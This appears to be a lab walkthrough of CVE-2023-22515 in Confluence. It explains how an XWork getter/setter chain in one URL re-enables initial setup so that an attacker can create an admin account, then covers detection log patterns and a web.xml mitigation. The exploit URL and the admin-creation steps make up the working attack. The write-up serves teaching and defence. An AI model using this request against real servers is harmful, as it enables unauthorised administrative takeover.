```yaml
---
sticker: emoji//1f499
---
```

On October 4th, 2023, Atlassian released a [security advisory](https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html) regarding **CVE-2023-22515**, a broken access control vulnerability, with an assigned CVSS score of **10.0**. The vulnerability was introduced in version 8.0.0 of Confluence Server and Data Center editions and is present in versions `<8.3.3`, `<8.4.3`, `<8.5.2`. According to Atlassian, the vulnerability has already been exploited in the wild.

An attacker can exploit the vulnerability to create an additional account in Confluence with full administrative privileges. The attacker needs no prior information to exploit the vulnerability. The vulnerability is believed to enable other unknown attack vectors and should be patched as soon as possible.


# Confluence's Initial Setup

When running Confluence for the first time, you'll go through the initial setup, which allows you to configure some basic parameters and create an administrative account. The initial setup can be reached by navigating to `http://10.10.140.118:8090/setup/`.

If you try to access the initial setup after you have completed it, you won't be able to go through the setup again but will be greeted with a message stating that the setup process is already complete:

![Setup Complete Message](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/87a38e7e852b41d0cf2eee22d9a1708e.png)

This is normal expected behavior and would normally not be useful for an attacker at all.

# Enter CVE-2023-22515

This vulnerability allows an attacker to reenable the initial setup process. In doing so, the attacker can go through the step of creating a new administrator all over again.

This is all possible because Confluence is built using the Apache Struts framework, which depends on the XWork package. XWork allows you to define Actions in the form of a Java class. Each Action can be invoked through a URL, and the corresponding Java class will handle the request, do whatever the Action requires, and emit a response. 

To clarify how Actions work, navigate to `http://10.10.140.118:8090/`. You should immediately be redirected to `http://10.10.140.118:8090/login.action`. This URL calls an Action bound to a Java class to handle login attempts. When an Action is invoked through its URL, the `execute()` method of the class will be called by default.

# Calling Getters/Setters via XWorks 

We can also call getters and setters in Action classes by using a URL specifying an HTTP parameter with the chain of attributes we want to get/set. As an example, if the login Action class had a `setId()` method, we could invoke it via the following URL:

```shell
http://10.10.140.118:8090/login.action?Id=123
```

This would execute `setId('123')` as defined in the corresponding Action class.

# Chaining Getters/Setters to Reenable the Initial Setup

The reported exploit takes advantage of the `ServerInfoAction` Action. The reason for picking this specific Action is that we can build a chain of getters/setters from it to set the configuration parameter that turns the initial setup on or off.

If you analyse the code of the `ServerInfoAction` class, you'll see it extends the `ConfluenceActionSupport` class. By doing so, it will inherit all of its methods as well. One such method is a getter that returns a `BootstrapStatusProvider` object:

```java
public class ConfluenceActionSupport extends ActionSupport implements LocaleProvider, WebInterface, MessageHolderAware {
  public BootstrapStatusProvider getBootstrapStatusProvider() {
    if (this.bootstrapStatusProvider == null)
      this.bootstrapStatusProvider = BootstrapStatusProviderImpl.getInstance(); 
    return this.bootstrapStatusProvider;
  }
}
```

We care about the `BootstrapStatusProvider` class because it has another getter method we can use to retrieve an `ApplicationConfiguration` object:

```java
public class BootstrapStatusProviderImpl implements BootstrapStatusProvider, BootstrapManagerInternal {
  public ApplicationConfiguration getApplicationConfig() {
    return this.delegate.getApplicationConfig();
  }
}
```

As you have probably guessed by now, this object contains the application's configuration, including an attribute that tells Confluence if the initial setup has been finished. Such attribute can be modified by using a setter in the `ApplicationConfig` class:

```java
public class ApplicationConfig implements ApplicationConfiguration {
  public synchronized void setSetupComplete(boolean setupComplete) {
    this.setupComplete = setupComplete;
  }  
}
```

If we call `setSetupComplete(false)`, we will effectively reenable the initial setup. Putting it all together, we can call that chain of getters/setters by accessing the following URL:

```shell-session
http://10.10.140.118:8090/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
```

This will be effectively translated by XWork into a call to:

```java
getBootstrapStatusProvider().getApplicationConfig().setSetupComplete(false)
```

Now, go to your browser and navigate to the crafted URL to trigger the vulnerability. You should get the following response from the server:

![Successful Exploit Response](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f84573513308dce89e4e11f2aa5421d7.png)

# Creating an Admin Account

Now that we can access the initial setup once again, let's browse to: 

```shell-session
http://10.10.140.118:8090/setup/setupadministrator-start.action
```

Fill in the details of your new admin user and click next:

![Creating a New Admin](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/eabc9bac04b7cf6512f120e4e93e0df6.png)

If all goes well, you should get access to Confluence with administrative privileges!

![Checking the Admin Account](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/5a03b959aba38ec9fb2e12cd37401176.png)

In this task, we have gone through a quick explanation of the vulnerability. If you want a more in-depth look at the technical details, check [Rapid7 analysis in attackerKB](https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis?referrer=moreFromAKB).


# AUTOMATING EXPLOITATION

As we have seen, exploiting the vulnerability is relatively straightforward and can be done manually using a single request and a regular browser. Even so, automated exploits are readily available. 

Chocapikk developed one such exploit, which can be downloaded from [here](https://github.com/Chocapikk/CVE-2023-22515). Feel free to download and use the exploit against the target machine!

On the other hand, if you need to test many servers to see if they are vulnerable, a simple vulnerability scanner was developed by ErikWynter. It can be obtained from his [GitHub page](https://github.com/ErikWynter/CVE-2023-22515-Scan). Unlike Chocapikk's script, this one will not exploit the vulnerability but test for it only.

# Detection

Should you have an instance of a vulnerable version of Confluence, be sure to check for the following:

- Network access logs pointing to `/setup/*.action`. There's no reason for a regular user to request such URLs after installation.
- Network access logs to `/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false`.
- Review your Confluence users and look for suspicious accounts and members of the `confluence-administrators` group.

# Patching

All vulnerable instances should be upgraded to at least one of the following versions as soon as possible:

- 8.3.3
- 8.4.3
- 8.5.2

If upgrading is not possible immediately, access to the `/setup/*` endpoints may be blocked as a temporary measure. To do so, add the following security constraint inside the `<web-app>` tag in `/<confluence-install-dir>/confluence/WEB-INF/web.xml`:

```xml
<security-constraint>
  <web-resource-collection>
    <url-pattern>/setup/*</url-pattern>
    <http-method-omission>*</http-method-omission>
  </web-resource-collection>
  <auth-constraint />
</security-constraint>
```

This will effectively restrict the access to `/setup/*`.

Remember that the mitigation instructions shouldn't be considered a definitive patch but only an interim measure. Servers should still be upgraded as soon as it becomes possible.